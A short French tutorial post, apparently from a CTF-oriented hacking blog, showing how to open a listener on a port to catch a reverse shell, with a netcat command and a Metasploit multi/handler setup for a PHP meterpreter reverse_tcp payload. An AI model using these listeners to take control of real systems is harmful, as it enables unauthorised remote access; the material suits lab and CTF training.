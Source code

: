 ```yaml
---
layout: post
section-type: post
title: Se mettre sous écoute sur un port
category: exploitation web
tags: [ 'reverse shell', 'Se mettre sous écoute sur un port', 'hacking', 'ctf' ]
---
```


---------------------------------------------
#### Mise en garde
Dans cet article, je vous montre un simple usage de netcat et meterpreter. Pour des besoins plus avancés, RTFM :p 

---------------------------------------------

#### Pré requis 
1-Avoir installer meterpreter pour la Méthode 2 <br/>

---------------------------------------------
#### Méthode 1: Utiliser netcat
  <pre><code data-trim class="yaml">
      #se mette sous écoute sur le port 1234
      netcat -lvp 1234 
  </code></pre> <br/>
     
---------------------------------------------
#### Méthode 2: Utiliser meterpreter
  <pre><code data-trim class="yaml">
      #se mette sous écoute sur le port 1234 en utilisant le payload php
      msfconsole
      use exploit/multi/handler
      set payload php/meterpreter/reverse_tcp
      set LHOST @IP_kali
      set LPORT 1234
      run
  </code></pre> <br/>
     
---------------------------------------------

			
